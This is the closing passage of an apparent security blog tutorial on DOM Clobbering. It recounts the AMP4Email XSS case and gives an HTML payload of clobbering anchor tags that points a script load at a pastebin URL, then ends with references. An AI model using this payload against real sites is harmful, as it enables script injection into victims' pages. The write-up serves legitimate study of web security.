 If we can make both `AMP_MODE.test` and `AMP_MODE.localDev` truthy, and then set `window.testLocation`, we can load any script!

So the exploit would look like this:

``` html
// 讓 AMP_MODE.test 跟 AMP_MODE.localDev 有東西
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

// 設置 testLocation.protocol
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```

Finally, we can successfully load any script and achieve XSS! (However, the author was only able to get this far before being blocked by CSP).

This is probably one of the most famous cases of DOM Clobbering.

## Conclusion

Although the use cases for DOM Clobbering are limited, it is a very interesting attack method! And if you don't know about this feature, you may not have thought about how HTML can affect the content of global variables.

If you are interested in this attack method, you can refer to PortSwigger's [article](https://portswigger.net/web-security/dom-based/dom-clobbering), which provides two labs for you to try this attack method yourself. Just reading about it is not enough, you need to actually attack to fully understand it.

References:

1. [Expanding XSS with Dom Clobbering](http://blog.zeddyu.info/2020/03/04/Dom-Clobbering/#HTML-Relationships)
2. [DOM Clobbering strikes back](https://portswigger.net/research/dom-clobbering-strikes-back)
3. [DOM Clobbering Attack Learning Record.md](https://wonderkun.cc/2020/02/15/DOM%20Clobbering%20Attack%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)
4. [DOM Clobbering Learning Record](https://ljdd520.github.io/2020/03/14/DOM-Clobbering%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)
5. [XSS in GMail’s AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
6. [Is there a spec that the id of elements should be made global variable?](https://stackoverflow.com/questions/6381425/is-there-a-spec-that-the-id-of-elements-should-be-made-global-variable)
7. [Why don't we just use element IDs as identifiers in JavaScript?](https://stackoverflow.com/questions/25325221/why-dont-we-just-use-element-ids-as-identifiers-in-javascript)
8. [Do DOM tree elements with ids become global variables?](https://stackoverflow.com/questions/3434278/do-dom-tree-elements-with-ids-become-global-variables)
